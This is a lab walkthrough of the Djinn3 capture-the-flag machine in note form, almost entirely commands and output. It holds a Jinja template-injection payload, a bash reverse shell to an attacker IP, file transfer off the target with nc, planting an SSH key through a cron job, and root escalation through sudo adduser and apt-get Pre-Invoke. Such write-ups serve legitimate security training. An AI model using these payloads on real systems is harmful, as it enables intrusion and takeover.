








## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.10 
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 192.168.1.10 -oG allPorts
nmap -sCV -p22,80,5000,31337 192.168.1.10 -oN targeted

dirb http://192.168.1.10 /usr/share/wordlists/dirb/common.txt

# serve side template injection
wfuzz -c --hc=500 -t 200 -z range,0000-9999 "http://192.168.1.10:5000/?id=FUZZ"
searchsploit ssh user enumeration
searchsploit -m linux/remote/45939.py # move to th current file

nc 192.168.1.10 31337 # from nmao targeted

# brute_force.py
-> pdb.set_trace() # debugger
(Pdb) p host
'912.168.1.10'
(Pdb) p port
31337
(Pdb)  

cat /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt | wc -l
<>

[+] Fuerza bruta: Founded credentials: guest:guest
# When we have tcp port open must use nc

# Creating a new ticket

❯ nc 192.168.1.11 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit
    
> open
Title: This is a test
Description: testing
> 

```


### Server Side Template Injection
```bash
> open
Title: {{7*7}}
Description: {{'7'*7}}

```


```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/
```


```bash
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

❯ rlwrap nc 192.168.1.11 31337 # activate 
username> guest
password> guest

# EXPPLOIT
{{config.__class__.__init__.__globals__['os'].popen('ls -l').read()}}

# If python is in the server we can inject SSTI
```


```bash
# Entering the oneliner
bash -c "bash -i >& /dev/tcp/192.168.1.12/443 0>&1"

0>&1 means: Redirect stdin (file descriptor 0) to the same place as stdout (file descriptor 1)
{{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/192.168.1.12/443 0>&1"').read()}}

Title: {{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/192.168.1.12/443 0>&1"').read()}}
Description: pwned

nc -nlvp 443

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash

lsb_release -a

ls -l /home

sudo -l
id

# SUID privileges
>
find / -perm -4000 2>/dev/null

cd /opt
ls -la

drwxr-xr-x  4 root     root     4096 Jun  4  2020 .
drwxr-xr-x 23 root     root     4096 Jun  1  2020 ..
-rwxr-xr-x  1 saint    saint    1403 Jun  4  2020 .configuration.cpython-38.pyc
-rwxr-xr-x  1 saint    saint     661 Jun  4  2020 .syncer.cpython-38.pyc
drwxr-xr-x  2 www-data www-data 4096 May 17  2020 .tick-serv
drwxr-xr-x  4 www-data www-data 4096 Jun  4  2020 .web

# install uncompyle6 in local machine
# Senf files from the remote machine to local
<>
nc 192.168.1.12 443 < .configuration.cpython-38.pyc # remote machine
nc -nlvp 443 > configuration.pyc

nc 192.168.1.12 443 < syncer.cpython-38.pyc # remote machine
nc -nlvp 443 > syncer.pyc

uncompyle6 configuration.pyc > config.py
uncompyle6 syncer.pyc > syncer.py

# Download pspy to vire crn processes (already downloaded form another course)
https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1

# We can download directly in the machine
ping -c 1 google.com # Checking if the current remote cmachine has internet connection

cd /tmp
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

# If we prefer transfer files:
python3 -m http.server 8080 # locally
wget http://192.168.1.12/pspy # remote

chmod +x pspy64
./pspy64

# Analyzing code
touch 19-04-2025.config.json # must be the same extension than declarated in the python script

# put into file
{
	"URL": "http://192.168.1.12:8080/test", # port to create python server
	"Output": "/tmp/test"
}

# create test file locally and create server
python3 -m http.server 8080 # must be the same port in both 

# Wait for the cron task do the job

```



```bash

# Check if the current created file has crated by saint user

# Creating ssh keys
rm ~/.ssh/* # Delete prevoius created files
ssh-keygen
# ans
ls
id_rsa	id_rsa.pub

cat ~/.ssh/id_rsa.pub
>
cat ~/.ssh/id_rsa.pub > authorized_keys
python3 -m http.server 8080

{
	"URL": "http://192.168.1.12:8080/authorized_keys",
	"Output": "/home/saint/.ssh/authorized_keys"
}

# Cron task must do ist job
```


```bash
ssh saint@192.168.1.11 # locally. no pass requeried

# In Saint user
sudo -l
# ans
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

sudo adduser edibauer --gid 0 # add to group id. --uid is currently used by root
su edibauer # put pass created currently
id
uid=1003(edibauer) gid=0(root) groups=0(root)

# Being saint we cant view /etc/sudoers, but being edibauer we can do it
4 -r--r----- 1 root root 973 Jun  4  2020 /etc/sudoers # root and groups can view

cat /etc/sudoers # Being edibauer
# ans
saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

jason ALL=(root) PASSWD: /usr/bin/apt-get # JAson can run apt-get without put pass GTFOBINS
#includedir /etc/sudoers.d

id jason
# We need to create jason user. He has been deleted recently but IT team has not deleted his user in this machine

sudo adduser jason # Being saint

```


```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh # GTFOBINS

cd /root
cat proof.sh

clear

figlet Amazing!!!

echo djinn-3 pwned...

echo __________________________________________________________________________

echo

echo "Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K"

echo Path: $(pwd)

echo Date: $(date)

echo Whoami: $(whoami)

echo __________________________________________________________________________

echo

echo "By @0xmzfr"

echo ""

echo "Special thanks to @DCAU7 for his help on Privilege escalation process" 
echo "And also Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)"

echo ""

echo "If you enjoyed this then consider donating (https://blog.mzfr.me/support/)"

echo "so I can continue to make these kind of challenges."
```


